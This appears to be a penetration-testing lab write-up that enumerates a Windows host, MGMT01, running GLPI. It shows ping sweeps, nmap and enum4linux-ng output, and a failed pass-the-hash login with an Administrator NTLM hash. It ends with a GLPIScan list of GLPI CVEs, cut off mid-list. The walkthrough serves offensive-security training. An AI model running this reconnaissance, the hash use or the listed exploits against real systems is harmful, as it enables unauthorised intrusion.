










I noticed some days ago that this machine was still on the same network, but only accessible from the same NIC, and guesing must be this one as it is the last one?


I will get another connection from DC02 and try again with another ping sweep and sure it is alive now.

```
┌──(root㉿kali-bello)-[/home/millycash/.ssh]
└─# fping -asgq 172.16.2.0/24
172.16.2.6
172.16.2.12
172.16.2.102

     254 targets
       3 alive
     251 unreachable
       0 unknown addresses

    1004 timeouts (waiting for response)
    1007 ICMP Echos sent
     104 ICMP Echo Replies received
       0 other ICMP received

 29.5 ms (min round trip time)
 151 ms (avg round trip time)
 333 ms (max round trip time)
        9.640 sec (elapsed real time)
```

What can we see from it now via Rustscan?

```
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.5)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.5
|_http-favicon: Unknown favicon MD5: C01D32D71C01C8426D635C68C4648B09
|_http-title: GLPI - Authentication
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 64 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 64 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.5)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_http-title: GLPI - Authentication
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.5
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
445/tcp   open  microsoft-ds? syn-ack ttl 64
3306/tcp  open  mysql?        syn-ack ttl 64
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host 'DC02' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host 'DC02' is not allowed to connect to this MariaDB server
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=7/4%Time=668683BF%P=x86_64-pc-linux-gnu%r(
SF:NULL,43,"\?\0\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed\x20t
SF:o\x20connect\x20to\x20this\x20MariaDB\x20server")%r(GenericLines,43,"\?
SF:\0\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed\x20to\x20connec
SF:t\x20to\x20this\x20MariaDB\x20server")%r(GetRequest,43,"\?\0\0\x01\xffj
SF:\x04Host\x20'DC02'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20th
SF:is\x20MariaDB\x20server")%r(HTTPOptions,43,"\?\0\0\x01\xffj\x04Host\x20
SF:'DC02'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaD
SF:B\x20server")%r(RTSPRequest,43,"\?\0\0\x01\xffj\x04Host\x20'DC02'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:)%r(RPCCheck,43,"\?\0\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSVersionB
SF:indReqTCP,43,"\?\0\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(DNSStatusReque
SF:stTCP,43,"\?\0\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Help,43,"\?\0\0\x0
SF:1\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed\x20to\x20connect\x20to
SF:\x20this\x20MariaDB\x20server")%r(SSLSessionReq,43,"\?\0\0\x01\xffj\x04
SF:Host\x20'DC02'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x
SF:20MariaDB\x20server")%r(TerminalServerCookie,43,"\?\0\0\x01\xffj\x04Hos
SF:t\x20'DC02'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20M
SF:ariaDB\x20server")%r(TLSSessionReq,43,"\?\0\0\x01\xffj\x04Host\x20'DC02
SF:'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20
SF:server")%r(Kerberos,43,"\?\0\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SMBP
SF:rogNeg,43,"\?\0\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11Probe,43,"\?\0
SF:\0\x01\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server")%r(FourOhFourRequest,43,"\?\0\0\x01
SF:\xffj\x04Host\x20'DC02'\x20is\x20not\x20allowed\x20to\x20connect\x20to\
SF:x20this\x20MariaDB\x20server");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=80%CT=%CU=%PV=Y%G=N%TM=66868424%P=x86_64-pc-linux-gnu)
SEQ(SP=FD%GCD=1%ISR=FC%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And what about the UDP:

```
┌──(root㉿kali-bello)-[/home/millycash/.ssh]
└─# nmap -F -sU 172.16.2.12 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 13:10 CEST
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 41.67% done; ETC: 13:10 (0:00:27 remaining)
Stats: 0:00:46 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 57.00% done; ETC: 13:11 (0:00:35 remaining)
Nmap scan report for 172.16.2.12
Host is up (0.069s latency).
Not shown: 99 open|filtered udp ports (no-response)
PORT    STATE SERVICE
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 124.65 seconds
```

# SMB

What do we know abou this server?

```
┌──(root㉿kali-bello)-[/home/millycash/.ssh]
└─# enum4linux-ng -A 172.16.2.12 
ENUM4LINUX - next generation (v1.3.3)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 172.16.2.12
[*] Username ......... ''
[*] Random Username .. 'gcpskcve'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ====================================
|    Listener Scan on 172.16.2.12    |
 ====================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: timed out
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: timed out
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ==========================================================
|    NetBIOS Names and Workgroup/Domain for 172.16.2.12    |
 ==========================================================
[+] Got domain/workgroup name: WORKGROUP
[+] Full NetBIOS names information:
- MGMT01          <00> -         B <ACTIVE>  Workstation Service
- WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
- MGMT01          <20> -         B <ACTIVE>  File Server Service
- MAC Address = 00-50-56-94-9C-B8

 ========================================
|    SMB Dialect Check on 172.16.2.12    |
 ========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ==========================================================
|    Domain Information via SMB session for 172.16.2.12    |
 ==========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: MGMT01
NetBIOS domain name: ''
DNS domain: MGMT01
FQDN: MGMT01
Derived membership: workgroup member
Derived domain: unknown

 ========================================
|    RPC Session Check on 172.16.2.12    |
 ========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ==============================================
|    OS Information via RPC for 172.16.2.12    |
 ==============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 12.20 seconds
```

Seems like not domain joined like I guessed? But can we get amy idea of th shares?

```
┌──(root㉿kali-bello)-[/home/millycash/.ssh]
└─# NetExec smb 172.16.2.12 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -d 'dev.admin.offshore.com'
SMB         172.16.2.12     445    MGMT01           [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT01) (domain:MGMT01) (signing:False) (SMBv1:False)
SMB         172.16.2.12     445    MGMT01           [-] dev.admin.offshore.com\Administrator:c61f43b6a4db2676714713836b7d2ea6 STATUS_LOGON_FAILURE
```

&nbsp;

# HTTP/S

Now I don't think we can do much with our credentials from AD, since the machine is clearly not domain joined but I wonder if by any ways this and the machine on `.1.22` are connected somehow?

Immediately i see both on HTTP/S standard ports this login page:



I have no fucking clue what this is about, but I see some SQLi? https://packetstormsecurity.com/files/171656/GLPI-10.0.2-SQL-Injection-Remote-Code-Execution.html

But I will test to use this tool that apaprently footprint the version? https://github.com/Digitemis/GLPIScan

And we can see the verbose:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/dev.admin.offshore.com]
└─# cd GLPIScan                                                

 ______     __         ______   __     ______     ______     ______     __   __   
/\  ___\   /\ \       /\  == \ /\ \   /\  ___\   /\  ___\   /\  __ \   /\ "-.\ \  
\ \ \__ \  \ \ \____  \ \  __/ \ \ \  \ \___  \  \ \ \____  \ \  __ \  \ \ \-.  \ 
 \ \_____\  \ \_____\  \ \_\    \ \_\  \/\_____\  \ \_____\  \ \_\ \_\  \ \_\"\_\
  \/_____/   \/_____/   \/_/     \/_/   \/_____/   \/_____/   \/_/\/_/   \/_/ \/_/
                                                      v1.5 contact[@]digitemis.com


[+] GLPI Scan start : http://172.16.2.12

[+] Gathering basic information
===============================

[+] Server Header : Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.5
[+] Version of GLPI : 9.4.3
    [+] Looking for [GLPI] exploits depending on version [9.4.3]

    [+] Vulnerable to: GZIP RCE
    [+] Reference: https://github.com/AlmondOffSec/PoCs/blob/master/glpi_rce_gzip/poc.txt
    [+] CVE: CVE-2020-11060

    [+] Vulnerable to: GLPI static encryption key
    [+] Reference: https://offsec.almond.consulting/multiple-vulnerabilities-in-glpi.html
    [+] CVE: CVE-2020-5248

    [+] Vulnerable to: Open Redirect
    [+] Reference: https://offsec.almond.consulting/multiple-vulnerabilities-in-glpi.html
    [+] CVE: CVE-2020-11034

    [+] Vulnerable to: Multiple XSS
    [+] Reference: https://offsec.almond.consulting/multiple-vulnerabilities-in-glpi.html
    [+] CVE: CVE-2020-11036

    [+] Vulnerable to: Weak CSRF tokens
    [+] Reference: https://offsec.almond.consulting/multiple-vulnerabilities-in-glpi.html
    [+] CVE: CVE-2020-11035

    [+] Vulnerable to: Reflected XSS in Dropdown endpoints
    [+] Reference: https://offsec.almond.consulting/multiple-vulnerabilities-in-glpi.html
    [+] CVE: CVE-2020-11062

    [+] Vulnerable to: Able to read any token through API user endpoint
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-rf54-3r4w-4h55
    [+] CVE: CVE-2020-11033

    [+] Vulnerable to: Multiple SQL Injections Stemming From isNameQuoted()
    [+] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15176
    [+] CVE: CVE-2020-15176

    [+] Vulnerable to: Unauthenticated File Deletion
    [+] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15175
    [+] CVE: CVE-2020-15175

    [+] Vulnerable to: Unauthenticated Cross Site Scripting (XSS) in install/install.php
    [+] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15177
    [+] CVE: CVE-2020-15177

    [+] Vulnerable to: SQL Injection in the APIs search function
    [+] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15226
    [+] CVE: CVE-2020-15226

    [+] Vulnerable to: Authenticated insecure direct object reference on ajax/getDropdownValue.php
    [+] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-27663
    [+] CVE: CVE-2020-27663

    [+] Vulnerable to: Authenticated insecure direct object reference on ajax/comments.php
    [+] Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-27662
    [+] CVE: CVE-2020-27662

    [+] Vulnerable to: Unsafe Reflection in getItemForItemtype()
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-qmw7-w2m4-rjwp
    [+] CVE: CVE-2021-21327

    [+] Vulnerable to: Horizontal Privilege Escalation
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-vmj9-cg56-p7wh
    [+] CVE: CVE-2021-21326

    [+] Vulnerable to: Stored XSS in budget type
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-m574-f3jw-pwrf
    [+] CVE: CVE-2021-21325

    [+] Vulnerable to: Insecure Direct Object Reference
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-jvwm-gq36-3v7v
    [+] CVE: CVE-2021-21324

    [+] Vulnerable to: XSS injection on ticket update
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-2w7j-xgj7-3xgg
    [+] CVE: CVE-2021-21314

    [+] Vulnerable to: XSS on tabs
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-h4hj-mrpg-xfgx
    [+] CVE: CVE-2021-21313

    [+] Vulnerable to: Stored XSS on documents
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-c7f6-3mr7-3rq2
    [+] CVE: CVE-2021-21312

    [+] Vulnerable to: Stored Cross-Site Scripting (XSS)
    [+] Reference: https://n3k00n3.github.io/blog/09042021/glpi_xss.html
    [+] CVE: CVE-2021-3486

    [+] Vulnerable to: CSRF Bypass
    [+] Reference: https://github.com/glpi-project/glpi/releases/tag/9.5.6
    [+] CVE: CVE-2021-39209

    [+] Vulnerable to: Autologin cookie accessible by scripts
    [+] Reference: https://github.com/glpi-project/glpi/releases/tag/9.5.6
    [+] CVE: CVE-2021-39210

    [+] Vulnerable to: Disclosure of GLPI and server informations in telemetry endpoint
    [+] Reference: https://github.com/glpi-project/glpi/releases/tag/9.5.6
    [+] CVE: CVE-2021-39211

    [+] Vulnerable to: Bypassable IP restriction on GLPI API using custom header injection
    [+] Reference: https://github.com/glpi-project/glpi/releases/tag/9.5.6
    [+] CVE: CVE-2021-39213

    [+] Vulnerable to: SQL injection using custom CSS administration form
    [+] Reference: https://github.com/glpi-project/glpi/commit/5c3eee696b503fdf502f506b00d15cf5b324b326
    [+] CVE: CVE-2022-21720

    [+] Vulnerable to: Reflected XSS using reload button
    [+] Reference: https://github.com/glpi-project/glpi/commit/e9b16bc8e9b61ebb2d35b96b9c71cd25c5af9e48
    [+] CVE: CVE-2022-21719

    [+] Vulnerable to: LDAP password exposed on source code
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-4r49-52q9-5fgr
    [+] CVE: CVE-2022-24867

    [+] Vulnerable to: Cross Site CSS Injection
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-p94c-8qp5-gfpx
    [+] CVE: CVE-2022-24869

    [+] Vulnerable to: XSS / open redirect via SVG file upload
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-9hg4-fpwv-gx78
    [+] CVE: CVE-2022-24868

    [+] Vulnerable to: SQL injection on login page
    [+] Reference: https://www.swascan.com/security-advisory-teclib-glpi/
    [+] CVE: CVE-2022-31061

    [+] Vulnerable to: Command injection using a third-party library script
    [+] Reference: https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/
    [+] CVE: CVE-2022-35914

    [+] Vulnerable to: Command injection using a third-party library script
    [+] Reference: https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/
    [+] CVE: CVE-2022-35914

    [+] Vulnerable to: SQL injection through plugin controller
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-92q5-pfr8-r9r2
    [+] CVE: CVE-2022-35946

    [+] Vulnerable to: Authentication via SQL injection
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-7p3q-cffg-c8xh
    [+] CVE: CVE-2022-35947

    [+] Vulnerable to: Improper access to debug panel
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-6c2p-wgx9-vrjc
    [+] CVE: CVE-2022-39370

    [+] Vulnerable to: User's session persist after permanently deleting his account
    [+] Reference: https://huntr.dev/bounties/62096b15-2b7b-4de3-96d1-32754c5f9d44/
    [+] CVE: CVE-2022-39234

    [+] Vulnerable to: Stored XSS on login page
    [+] Reference: https://huntr.dev/bounties/54fc907e-6983-4c24-b249-1440aac1643c/
    [+] CVE: CVE-2022-39262

    [+] Vulnerable to: SQL Injection on REST API
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-cp6q-9p4x-8hr9
    [+] CVE: CVE-2022-39323

    [+] Vulnerable to: Blind Server-Side Request Forgery (SSRF) in RSS feeds and planning
    [+] Reference: https://huntr.dev/bounties/7a88f92b-1ee2-4ca8-9cf8-05fcf6cfe73f/
    [+] CVE: CVE-2022-39276

    [+] Vulnerable to: XSS in external links
    [+] Reference: https://huntr.dev/bounties/8e047ae1-7a7c-48e0-bee3-d1c36e52ff42/
    [+] CVE: CVE-2022-39277

    [+] Vulnerable to: Stored XSS in user information
    [+] Reference: https://github.com/glpi-project/glpi/security/advisories/GHSA-5rj7-95qc-89h2
    [+] CVE: CVE-2022-39372

    [+] Vulnerable to: Stored XSS in entity name
    [+] Reference: https://huntr.dev/bounties/d3c269fc-a865-425f-89e1-15fb32e85e96/
    [+] CVE: CVE-2022-39373

    [+] Vulnerable to: XSS through public RSS feed
    [+] Reference: https://huntr.dev/bounties/b45146ef-0f1a-4de9-90be-5c4d78b34fdf/
    [+] CVE: CVE-2022-39375

    [+] Vulnerable to: Improper input validation on emails links
